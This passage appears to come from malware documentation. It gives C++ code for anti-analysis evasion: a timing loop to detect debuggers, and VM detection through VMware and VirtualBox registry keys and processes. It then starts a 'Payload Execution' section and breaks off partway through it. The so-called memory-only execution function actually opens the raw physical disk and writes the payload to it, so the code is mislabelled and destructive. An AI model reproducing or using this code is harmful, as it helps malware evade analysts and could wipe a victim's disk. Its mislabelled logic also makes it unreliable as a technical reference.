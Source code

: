 ### Timing Anomaly Detection
```cpp
bool CheckTimingAnomalies() {
    auto start = std::chrono::high_resolution_clock::now();
    
    // Perform operations that would be slowed by debugger
    for (int i = 0; i < 1000000; i++) {
        __asm { nop nop nop }
    }
    
    auto end = std::chrono::high_resolution_clock::now();
    auto duration = std::chrono::duration_cast<std::chrono::milliseconds>(end - start);
    
    return duration.count() > TIMING_THRESHOLD_MS;
}
```

## VM Detection Methods

### Registry Scanning
```cpp
bool CheckVMRegistry() {
    std::vector<std::string> vmKeys = {
        "SOFTWARE\\VMware, Inc.\\VMware Tools",
        "SOFTWARE\\Oracle\\VirtualBox Guest Additions",
        "SOFTWARE\\Microsoft\\Virtual Machine\\Guest\\Parameters"
    };
    
    for (const auto& key : vmKeys) {
        if (RegKeyExists(key)) return true;
    }
    return false;
}
```

### Process Detection
```cpp
bool CheckVMProcesses() {
    std::vector<std::string> vmProcesses = {
        "vmtoolsd.exe", "vboxservice.exe", "vboxtray.exe"
    };
    
    return ScanForProcesses(vmProcesses);
}
```

## Payload Execution

### Memory-Only Execution
```cpp
bool ExecuteInMemory(const std::vector<BYTE>& payload) {
    // Create temporary file in memory
    HANDLE hTempFile = CreateFileA("\\\\.\\PhysicalDrive0", 
                                  GENERIC_READ | GENERIC_WRITE,
                                  FILE_SHARE_READ | FILE_SHARE_WRITE, 
                                  NULL, CREATE_ALWAYS,
                                  FILE_ATTRIBUTE_TEMPORARY | FILE_FLAG_DELETE_ON_CLOSE, 
                                  NULL);
    
    // Write payload and execute
    WriteFile(hTempFile, payload.data(), payload.size(), &bytesWritten, NULL);
    
```
